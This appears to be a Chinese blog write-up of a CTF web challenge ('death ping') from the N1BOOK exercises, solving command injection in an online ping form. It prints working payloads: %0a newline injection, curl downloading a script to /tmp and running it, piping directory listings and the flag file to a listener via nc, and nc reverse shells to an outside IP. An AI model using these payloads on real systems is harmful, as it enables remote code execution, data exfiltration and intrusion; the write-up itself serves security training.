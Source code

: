 ```yaml
---
title: 从0到1：CTFer成长之路 N1BOOK of web 死亡ping命令 writeup
date: 2022-04-12 11:20:00
updated: 2022-04-13 11:56:00
tags: [ctf,security,<<从0到1：CTFer成长之路>]
description: <<从0到1：CTFer成长之路>>配套题目 web相关题目的做题记录 N1BOOK of web 死亡ping命令 writeupcahttps://blog.csdn.net/qq_45414878/article/details/109672659
---
```


是一个提供了ping命令的在线网站

![image-20220412112049704](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412112049704.png)

ping是一个在shell中执行的命令，假如我们可以传入恶意用户输入，可以在shell中执行任意命令的话，想要读个flag文件显然不难。

我先是使用了自己的命令行做了一下测试，测试中也遇到不少奇怪的问题，但是发现个可以利用的点

我这里用&把前面的命令挂起，就可以执行后面的命令

![image-20220412114037460](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412114037460.png)

不过试了试发现题目把&过滤了

![image-20220412114122744](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412114122744.png)

那看来需要fuzz一下看看过滤了什么，然后再想想能用什么了，我用burpsuite抓包然后来进行fuzz测试

找了好久也没找到什么burpsuite可以用来fuzz单个字符的方法，但是我看别人的wp都能用burpsuite来fuzz单个字符，好奇怪，只能先不管了。

总之参考别人的wp，这里绕过过滤执行shell命令的方法是用%0a，也就是url编码的换行符来执行shell命令，由于docker是没有bash、python程序的，官方wp中提到sh反弹是不行的，那这里只能用curl先获取写在我自己服务器上的.sh文件，将想要执行的恶意代码放进.sh文件中，在题目环境中先用curl获取这个.sh文件并放进tmp目录下，再执行.sh文件，命令执行的结果输出到我服务器监听的端口上，下面是payload，在服务器上放一个evil.sh文件，并且在文件中先后写入`ls -la /| nc ip`看到ls的结果后）知道flag文件名字是FLAG，将evil.sh的内容改成`cat /FLAG | nc ip`，再执行一遍即可。

先让evil.sh的内容为`ls -la / | nc ip port`，

payload:`ip=127.0.0.1%0acurl ip:port/evil.sh /tmp/evil.sh` 将放在我服务器上的evil.sh下载到靶机的tmp目录下

payload:`ip=127.0.0.1%0achmod777 /tmp/evil.sh`用chmod命令给文件执行权限（实际上不用chmod给权限也可以执行）

`nc -nvlp 8089`在我服务器上开启端口监听，这样后面执行evil.sh后可以把结果发到我服务器上

payload:`ip=127.0.0.1%0ash /tmp/evil.sh` 用sh命令执行evil.sh，执行evil.sh中的恶意代码

需要注意一下`ls -la /`这个命令，如果不加/，那么直接ls会在root目录下执行，FLAG放在根目录下，这样你会发现没有flag文件，加了/后发现FLAG文件就在根目录下

![image-20220412225240205](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412225240205.png)

那接下来就修改一下evil.sh 里面内容为`cat /FLAG | nc ip port`就可以

payload:`ip=127.0.0.1%0acurl ip:port/evil.sh /tmp/evil.sh` 将放在我服务器上的evil.sh下载到靶机的tmp目录下

payload:`ip=127.0.0.1%0achmod777 /tmp/evil.sh`用chmod命令给文件执行权限（实际上不用chmod给权限也可以执行）

`nc -nvlp 8089`在我服务器上开启端口监听，这样后面执行evil.sh后可以把结果发到我服务器上

payload:`ip=127.0.0.1%0ash /tmp/evil.sh` 用sh命令执行evil.sh，执行evil.sh中的恶意代码

![image-20220412224057283](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412224057283.png)

拿到flag啦，但是拿到flag后我又很奇怪其中的一些步骤为什么反弹shell不行，因为这里是有nc的，所以我就尝试用nc反弹shell了

在evil.sh中写入`nc ip port -e /bin/sh`，然后还是和上面一样用`ip=127.0.0.1%0acurl ip:port/evil.sh /tmp/evil.sh`把文件读到/tmp目录下并且用`ip=127.0.0.1%0ash /tmp/evil.sh`执行evil.sh，发现可以成功弹shell...可能是BUU的环境不太对劲？这就不清楚了。

![image-20220413114849678](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220413114849678.png)

那既然把命令写在文件里面执行可以的话，感觉也可以直接弹shell吧，用payload:`ip=127.0.0.1%0anc 39.108.253.105 8089 -e /bin/sh`试了试发现有被过滤的字符，这么一想确实把命令写在文件里面用curl下载再执行的方式可以绕过一些过滤，题目的环境和官方wp有些不太对的上，也不懂为啥官方wp说不能弹shell，有点迷惑，就这样吧这个题。



